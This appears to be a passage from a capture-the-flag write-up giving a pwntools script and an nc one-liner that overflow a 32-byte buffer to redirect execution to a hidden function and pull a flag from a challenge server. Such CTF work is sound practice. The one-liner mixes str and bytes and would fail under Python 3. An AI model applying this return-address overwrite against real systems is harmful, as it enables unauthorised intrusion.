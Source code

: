 Here's my complete exploit script:

```python
#!/usr/bin/env python3
from pwn import *

# Set context for 32-bit architecture
context.arch = 'i386'
context.log_level = 'info'

# Connect to the challenge
# For local testing: conn = process('./resistance_terminal')
conn = remote('challs.0x4m4.com', 9999)

# Address of secret_function (obtained from objdump)
secret_addr = 0x080491d6

log.info(f"Target secret_function address: {hex(secret_addr)}")
log.info("Crafting buffer overflow payload...")

# Craft the payload
# 32 bytes buffer + 4 bytes saved EBP + return address
payload = b'A' * 36  # Padding to reach return address
payload += p32(secret_addr)  # Overwrite return address with secret_function

# Send the payload
conn.recvuntil(b"Enter resistance access code: ")
log.info("Sending payload to bypass authentication...")
conn.sendline(payload)

# Receive and display the flag
log.success("Payload sent! Receiving secret codes...")
response = conn.recvall().decode()
print(response)

# Extract the flag
if "sscit{" in response:
    flag_start = response.find("sscit{")
    flag_end = response.find("}", flag_start) + 1
    flag = response[flag_start:flag_end]
    log.success(f"Secret resistance codes retrieved: {flag}")

conn.close()
```

## Alternative Exploitation Methods

### Python One-liner

For a quick exploit without a full script:

```bash
python3 -c "import struct; print('A' * 36 + struct.pack('<I', 0x080491d6))" | nc challenge.server.com 9999
```

